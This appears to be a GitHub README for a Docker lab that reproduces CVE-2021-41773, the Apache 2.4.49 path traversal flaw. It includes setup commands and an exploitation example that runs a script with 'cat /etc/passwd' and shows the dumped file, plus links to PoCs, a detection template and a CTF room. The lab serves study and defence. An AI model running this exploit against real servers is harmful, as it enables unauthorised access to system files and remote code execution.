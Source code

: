 # CVE-2021-41773
A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions. The fix in Apache HTTP Server 2.4.50 was found to be incomplete, see CVE-2021-42013.


## Metrics
CVSSv2: 4.3 MEDIUM   
CVSSv3: 7.5 HIGH    

## Vulnerability Environment
Build and run:
```bash
docker compose build
docker compose up -d
```

Find Apache IP:
```bash
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' apache_cve_2021_41773
```

Stop Environment and remove network
```bash
docker compose down
```

## Detection and exploitation example
### Exploitation example:
```bash
❯ ./CVE-2021-41773.sh 172.18.0.2 "cat /etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

## Exploits and PoCs
https://github.com/lorddemon/CVE-2021-41773-PoC   
https://github.com/iilegacyyii/PoC-CVE-2021-41773   

## Nuclei Template
https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2021/CVE-2021-41773.yaml

## CTF Rooms
[TryHackMe: CVE-2021-41773/42013](https://tryhackme.com/r/room/cve202141773)

## References
[NIST: CVE-2021-41773](https://nvd.nist.gov/vuln/detail/cve-2021-41773)